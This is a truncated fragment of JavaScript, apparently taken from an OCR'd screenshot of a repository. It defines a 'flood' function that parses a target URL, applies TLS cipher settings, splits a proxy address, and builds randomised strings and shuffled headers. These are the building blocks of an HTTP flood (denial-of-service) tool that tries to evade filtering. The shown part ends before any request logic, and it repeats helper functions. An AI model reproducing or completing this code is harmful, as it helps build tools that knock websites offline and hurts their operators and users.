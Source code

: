 function flood() {
	var parsed = url.parse(target);
	var cipper = headerFunc.cipher();
	var proxy = proxyr.split(':');
	
	function randstra(length) {
		const characters = "0123456789";
		let result = "";
		const charactersLength = characters.length;
		for (let i = 0; i < length; i++) {
			result += characters.charAt(Math.floor(Math.random() * charactersLength));
		}
		return result;
	}

	function randstr(minLength, maxLength) {
		const characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'; 
const length = Math.floor(Math.random() * (maxLength - minLength + 1)) + minLength;
const randomStringArray = Array.from({ length }, () => {
const randomIndex = Math.floor(Math.random() * characters.length);
return characters[randomIndex];
});

return randomStringArray.join('');
}

	const randstrsValue = randstr(25);
function generateRandomString(minLength, maxLength) {
					const characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'; 
  const length = Math.floor(Math.random() * (maxLength - minLength + 1)) + minLength;
  const randomStringArray = Array.from({ length }, () => {
    const randomIndex = Math.floor(Math.random() * characters.length);
    return characters[randomIndex];
  });

  return randomStringArray.join('');
}
function shuffleObject(obj) {
					const keys = Object.keys(obj);
				  
					for (let i = keys.length - 1; i > 0; i--) {
					  const j = Math.floor(Math.random() * (i + 1));
					  [keys[i], keys[j]] = [keys[j], keys[i]];
					}
				  
					const shuffledObject = {};
					for (const key of keys) {
					  shuffledObject[key] = obj[key];
					}
				  
					return shuffledObject;
				  }
const hd = {}
 function getRandomInt(min, max) {
  return Math.floor(Math.random() * (max - min + 1)) + min;
}
   